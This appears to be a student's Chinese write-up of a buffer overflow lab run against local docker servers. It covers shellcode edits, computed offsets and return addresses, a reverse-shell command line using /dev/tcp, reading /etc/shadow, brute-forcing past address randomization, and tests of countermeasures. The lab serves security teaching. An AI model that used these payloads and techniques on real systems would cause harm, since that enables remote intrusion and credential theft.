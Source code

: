 #实验二：Buffer Overflow Attack Lab (Server Version)

## Table of Contents
- [Table of Contents](#table-of-contents)
- [1 Overview](#1-overview)
- [2 Lab Environment Setup](#2-lab-environment-setup)
- [3 Task 1: Get Familiar with the Shellcode](#3-task-1-get-familiar-with-the-shellcode)
- [4 Task 2: Level-1 Attack](#4-task-2-level-1-attack)
- [5 Task 3: Level-2 Attack](#5-task-3-level-2-attack)
- [6 Task 4: Level-3 Attack](#6-task-4-level-3-attack)
- [7 Task 5: Level-4 Attack](#7-task-5-level-4-attack)
- [8 Task 6: Experimenting with the Address Randomization](#8-task-6-experimenting-with-the-address-randomization)
- [9 Tasks 7: Experimenting with Other Countermeasures](#9-tasks-7-experimenting-with-other-countermeasures)

## 1 Overview

## 2 Lab Environment Setup

关闭地址随机化的保护机制，以保证后续攻击成功进行：

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

编译 `stack.c`：

```bash
cd ./server-code/
make && make install
```

在新的 shell 中创建并启动 docker 容器：

```bash
dcbuild
dcup
```

![](assets/2023-08-28-10-23-54.png)


## 3 Task 1: Get Familiar with the Shellcode

修改 `shellcode/shellcode_32.py` 中的命令为：

```python
"/bin/ls -l; echo Hello 32; /bin/rm -f testfile            *"
```

创建测试文件 `testfile`，并对 32、64 位的两个程序进行编译，之后运行：

```bash
touch testfile
ls
./shellcode_32.py
./shellcode_64.py
make
a32.out
a64.out
```

![](assets/2023-08-28-10-39-48.png)

可以看到 `a32.out` 在打印了 `Hello 32` 后，执行了我们后添加的 `rm -f testfile` 命令删除了 `testfile`。

## 4 Task 2: Level-1 Attack

首先获取 32 位服务器的 buffer 情况：

```bash
echo hello | nc 10.9.0.5 9090
```

![](assets/2023-08-28-10-58-34.png)

可以看到基址指针 ebp 为 0xffffd028，buffer 的起始地址为 xffffcfb8。

接下来修改攻击代码 `exploit.py`，将 `start` 值修改为 `517 - len(shellcode)`；`ret` 修改为 ebp 再加 8 个字节，即 `0xffffd2c8 + 8`；`offset` 修改为 ebp 和起始地址的差值加 4，即 `0xffffd2c8 - 0xffffd258 + 4 = 116`。

![](assets/2023-08-28-14-38-24.png)

运行代码，生成 `badfile` 文件，将其发送到服务器：

```bash
./exploit.py
ls
cat badfile | nc 10.9.0.5 9090
```

![](assets/2023-08-28-13-57-04.png)

![](assets/2023-08-28-14-39-11.png)

可以看到在 docker 容器中执行了 shellcode 中的命令，列出了当前目录下的文件以及打印了 `Hello 32`。

修改 `exploit.py` 中 shellcode 的命令为，实现反弹 shell：

```python
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
```

在新的 shell 中监听 9090 端口：

```bash
nc -lnv 9090
```

运行攻击代码，生成 `badfile` 文件，将其发送到服务器：

```bash
./exploit.py
cat badfile | nc 10.9.0.5 9090
```

![](assets/2023-08-28-15-10-10.png)

可以看到在监听的 shell 中成功反弹了服务器的 shell。

在反弹 shell 中输入命令 `cat /etc/shadow`，可以看到内容如下：

![](assets/2023-08-28-15-26-59.png)

## 5 Task 3: Level-2 Attack

通过同样的方法获取服务器 2 的 buffer 地址为 `0xffffd408`：

```bash
echo hello | nc 10.9.0.6 9090
```

![](assets/2023-08-28-15-31-13.png)

修改 `exploit.py` 中的 `ret` 为 `0xffffd408 + 308`，以及修改 content 的内容为从 100 到 300 每隔 4 个字节的地址，即：

![](assets/2023-08-28-20-00-21.png)

运行，监听 9090 端口，发送 `badfile` 文件：

```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.6 9090
```

再次成功得到了服务器的 shell：

![](assets/2023-08-28-20-02-42.png)

## 6 Task 4: Level-3 Attack

```bash
echo hello | nc 10.9.0.7 9090
```

![](assets/2023-08-29-16-57-40.png)

得到了 64 位服务器的上下边界分别为 `0x00007fffffffe580` 和 `0x00007fffffffe4b0`。修改攻击代码 `exploit.py`，将 `start` 值修改为 0；`ret` 修改为 `0x00007fffffffe4b0`；`offset` 修改为 `0x00007fffffffe580 - 0x00007fffffffe4b0 + 8 = 216`。且 shellcode 也应该修改为 64 位的：

![](assets/2023-08-29-17-17-34.png)

```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.7 9090
```

![](assets/2023-08-29-17-19-07.png)

成功得到了服务器的 shell。

## 7 Task 5: Level-4 Attack

```bash
echo hello | nc 10.9.0.8 9090
```

![](assets/2023-08-29-17-27-24.png)

可以看到 buffer 空间只有 96 字节，无法放下 shellcode，将 `exploit.py` 中的 `start` 修改为 `517 - len(shellcode)`；`ret` 修改为 `0x00007fffffffe580`；`offset` 修改为差值加 8，即 104：

![](assets/2023-08-29-21-45-49.png)

```bash
./exploit.py
nc -lnv 9090
cat badfile | nc 10.9.0.8 9090
```

![](assets/2023-08-29-21-46-47.png)

## 8 Task 6: Experimenting with the Address Randomization

打开前面已经关闭的地址随机化的保护机制：

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

多次向服务器发送 `hello`，可以看到每次的地址都不一样：

![](assets/2023-08-29-21-49-50.png)

将 `exploit.py` 修改为 32 位的版本，包括 shellcode 和 content，`ret` 修改为 `0xffb12108 + 8`；`offset` 修改为 `0xffb12108 - 0xffb12098 + 4 = 116`：

![](assets/2023-08-29-21-56-08.png)

开启监听后，生成 `badfile` 文件，使用 `bruteforce.sh` 脚本不断发送尝试破解：

```bash
nc -lnv 9090
./exploit.py
./bruteforce.sh
```

最终在 25981 次尝试后得到了服务器的 shell，耗时约 1 分钟：

![](assets/2023-08-29-22-00-18.png)

![](assets/2023-08-29-22-00-39.png)

## 9 Tasks 7: Experimenting with Other Countermeasures

关闭 docker 容器，重新编译 `stack.c`，但没有启用 `StackGuard` 保护机制。将 `badfile` 复制到 `server-code` 目录下，运行 `stack-L1`，

```bash
cd ./server-code/
gcc -DUF_SIZE=100 -DSHOW_FP -z execstack -static -m32 -o stack-L1 stack.c
cp ../badfile ./
./stack-L1 < badfile
```

可以看到检测到了 buffer overflow，从而终止了程序：

![](assets/2023-08-29-22-06-52.png)

重新编译 `shellcode/call_shellcode.c`，但不加 `-z execstack` 选项：

```bash
cd ../shellcode/
gcc -m32 -o a32.out call_shellcode.c
gcc -o a64.out call_shellcode.c
```

运行 `a32.out` 和 `a64.out`，可以看到都报错 `Segmentation fault`，也就是没有执行在栈中的 shellcode：

![](assets/2023-08-29-22-12-01.png)
